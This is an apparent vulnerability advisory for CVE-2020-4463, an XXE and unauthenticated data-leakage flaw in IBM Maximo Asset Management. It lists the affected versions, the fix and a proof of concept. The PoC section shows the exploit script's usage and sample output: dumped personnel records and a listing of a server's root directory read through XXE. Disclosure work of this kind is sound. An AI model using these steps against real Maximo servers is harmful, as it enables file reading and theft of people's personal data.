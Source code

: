 ```yaml
---
title: IBM Maximo Asset Management is vulnerable via XXE 
description: IBM Maximo Asset Management is vulnerable to Information Disclosure via XXE Vulnerability (CVE-2020-4463)
header: IBM Maximo Asset Management is vulnerable via XXE 
tags: ['advisories']
---
```


IBM Maximo Asset Management is vulnerable to an XML External Entity Injection (XXE) attack when processing XML data. A remote attacker could exploit this vulnerability to expose sensitive information or consume memory resources.

<!--more-->

Base Score: 8.2

Vector: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:L

### Affected Core Components
IBM Maximo Asset Management	7.6.0<br />
IBM Maximo Asset Management	7.6.1<br />

### Affected Products
Maximo for Aviation<br />
Maximo for Life Sciences<br />
Maximo for Nuclear Power<br />
Maximo for Oil and Gas<br />
Maximo for Transportation<br />
Maximo for Utilities<br />
SmartCloud Control Desk<br />
IBM Control Desk<br />
Tivoli Integration Composer<br />

### Patched in Version
Fixed Version: 	Maximo Asset Management 7.6.1.2<br />
prior Versions: See workaround (link below)

### Links:
- https://nvd.nist.gov/vuln/detail/CVE-2020-4463
- https://www.ibm.com/support/pages/node/6253953

### PoC
Here now the PoC for the vulnerability. Not only the versions mentioned by IBM are vulnerable. All versions befor version 7.6.0 can be also vulnerable.

The PoC checks 2 vulnerabilities that might be present on the system. A data leakage vulnerability that can be exploited if no authentication is implemented and the XXE vulnerability that can be exploited if a certain value (mxe.int.resolvexmlextentity=0) is not set in the configuration.

### Example

#### Usage

```
python3 CVE-2020-4463.py --help
usage: CVE-2020-4463.py [-h] [-x [XXE]] [-d [DATALEAK]] [--url [URL]]

CVE-2020-4463 PoC Data Leakage and XXE

optional arguments:
  -h, --help            show this help message and exit
  -x [XXE], --xxe [XXE]
                        XXE (Linux/Windows)
  -d [DATALEAK], --dataleak [DATALEAK]
                        Data Leakage REST request MXPERSON. May take a long
                        time.
  --url [URL]           Target URL http://, https://
```

If you get following response, both vulnerabilities are not present.

```
Error 500: BMXAA1268E - No user credentials.
```

#### Data Leakage

May take a long time if the database contains many entries.

```
CVE-2020-4463 git:(master) ✗ python3 CVE-2020-4463.py --url https://10.0.0.1 -d

<?xml version="1.0" encoding="UTF-8"?>
<QueryMXPERSONResponse xmlns="http://www.ibm.com/maximo" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
    creationDateTime="2020-11-16T10:42:49+01:0 0" transLanguage="EN" baseLanguage="EN"
    messageID="6927296.160551977018422092" maximoVersion="7 6 20170418-0100 V7608-61" rsStart="0" rsTotal="4374"
    rsCount="4374">
    <MXPERSONSet>
        <PERSON>
            <ADDRESSLINE1></ADDRESSLINE1>
            <CITY></CITY>
            <CLASSSTRUCTUREID></CLASSSTRUCTUREID>
            <COUNTRY></COUNTRY>
            <C_DESCRIZIONE></C_DESCRIZIONE>
            <C_MATRICOLA></C_MATRICOLA>
            <C_QUALIFICA></C_QUALIFICA>
            <FIRSTNAME>Lxxxxxxx</FIRSTNAME>
            <LANGUAGE>IT</LANGUAGE>
            <LASTNAME>xxxxxx</LASTNAME>
            <PERSONID>Lxxxxxxx</PERSONID>
            <POSTALCODE></POSTALCODE>
            <PRIMARYEMAIL>xxxx@xxxx.xxx</PRIMARYEMAIL>
            <PRIMARYPHONE></PRIMARYPHONE>
            <STATEPROVINCE></STATEPROVINCE>
            <STATUS maxvalue="ACTIVE">ACTIVE</STATUS>
            <TITLE></TITLE>
            <USERNOTFTYPE></USERNOTFTYPE>
            <EMAIL>
                <EMAILADDRESS>xxxx@xxxx.xxx</EMAILADDRESS>
            </EMAIL>
        </PERSON>
```

#### XXE

```
CVE-2020-4463 git:(master) ✗ python3 CVE-2020-4463.py --url https://10.0.0.1 -x          

Error 500: BMXAA4160E - A major exception has occurred. Check the system log to see if there 
are any companion errors logged. Report this error to your system administrator.
	/c: &#40;No such file or directory&#41;
Error 500: For input string: &quot;bin
boot
dev
etc
home
initrd.img
initrd.img.old
lib
lib64
lost&#43;found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
&quot;
```

**Michael Wollner** ([@Ibonok](https://github.com/Ibonok))
